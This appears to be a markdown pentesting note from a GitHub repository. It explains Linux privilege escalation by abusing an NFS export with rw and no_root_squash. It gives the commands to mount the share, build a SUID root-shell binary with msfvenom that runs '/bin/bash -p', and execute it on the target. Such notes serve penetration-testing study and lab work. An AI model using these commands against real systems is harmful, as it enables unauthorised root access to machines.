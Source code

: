 # Privileges Escalation - Linux
# NFS Server exploitation..

When we're inside the target machine, we have to check if it's an **NFS (Network File System) server**, in which we could mount locally directories from remote and try to exploit the NFS vulnerability (if there's one).

- [First step - on the target](#first-step---on-the-target)
- [Second step - on our machine](#second-step---on-our-machine)
- [Last step - on the target](#last-step---on-the-target)


## First step -  on the target
- Check if it's an NFS server with `cat /etc/exports`.
  - The output should be `<Remote dir> <Target IP>(<Permissions>)`
  - No output if no NFS service running on it.
- If we get `rw` permissions and also `no_root_squash` option, **we found a vulnerability**, so we can proceed.
  - `no_root_squash` option means that if the client loads a file with UID = 0 (root), the NFS server keeps it. 

## Second step - on our machine
- We have to log in as root, so `sudo su`.
- Then let's create the NFS share:\`mkdir /tmp/nfs`.
- And let's mount the remote directory on it:<br>`mount -o rw,vers=3 <Target IP>:<Remote dir> /tmp/nfs` 
- Now we have to create a `rootshell.elf` file to run a privileged shell:<br>`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/rootshell.elf`
- In the end, let's set the SUID bit: `chmod +xs /tmp/nfs/rootshell.elf` 

## Last step - on the target
- We can now launch the privileged shell from the exposed directory (`/tmp`) with `/tmp/rootshell.elf`.
- We should be able to gain access to a root shell. Check it with `whoami`.



